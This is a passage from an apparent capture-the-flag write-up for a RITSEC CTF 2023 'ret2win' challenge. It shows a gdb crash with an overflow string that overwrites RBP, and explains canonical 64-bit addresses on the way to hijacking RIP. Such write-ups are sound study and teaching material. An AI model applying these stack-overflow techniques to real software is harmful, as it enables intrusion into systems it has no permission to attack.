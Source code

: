 Armed with above information, we can start to exploit stack buffer overflow vulnerability!

- **Goal: Control the RIP register so that we can invoke function `supersecrettoplevelfunction()`**

**Now, we can use `gdb` to confirm we can overflow the RBP register:**
```shell
gef➤  r
[...]
Are you expert at exploit development, join the world leading cybersecurity company, Republic of Potatoes(ROP)
[*] This is a simple pwn challenge...get to the secret function!!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB, now do some damage :) 

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401200 in user_input ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x50              
$rbx   : 0x007fffffffdd68  →  0x007fffffffe0ef  →  "/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/r[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x007fffffffdc50  →  0x0000000000000001
$rbp   : 0x4242424242424242 ("BBBBBBBB"?)
$rsi   : 0x000000004052a0  →  "[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB[...]"
$rdi   : 0x007fffffffd6c0  →  0x007ffff7e14e70  →  <funlockfile+0> mov rdi, QWORD PTR [rdi+0x88]
$rip   : 0x00000000401200  →  <user_input+28> dec DWORD PTR [rax-0x73]
$r8    : 0x000000004056d9  →  0x0000000000000000
$r9    : 0x73              
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x007fffffffdd78  →  0x007fffffffe128  →  "TERMINATOR_DBUS_NAME=net.tenshu.Terminator21a9d5db[...]"
$r14   : 0x0               
$r15   : 0x007ffff7ffd020  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
[...]
```

As you can see, our RBP register is filled with 8 B's (`42` in hex).

> The reason the RIP was not overflowed (technically it was, as we saw in the above screenshot, but there's more to it), is because the `AAAAAAAA` (`0x4141414141414141`) is considered a non-canonical memory address, or, in other words, `0x4141414141414141` is a 64-bit wide address and current CPUs prevent applications and OSes to use 64-bit wide addresses.
>   
> Instead, the highest memory addresses programs can use are 48-bit wide addresses and they are capped to `0x00007FFFFFFFFFFF`. This is done to prevent the unnecessary complexity in memory address translations that would not provide much benefit to the OSes or applications as it's very unlikely they would ever need to use all of that 64-bit address space.
>  
> Knowing about canonical addresses, we could take control of the RIP if the 64-bit wide return address `0x4141414141414141` (our garbage data) we tried to plant into the vulnerable program's stack, was translated to a 48-bit canonical address by masking off the 2 highest bytes. (From [Red Team Notes](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow))

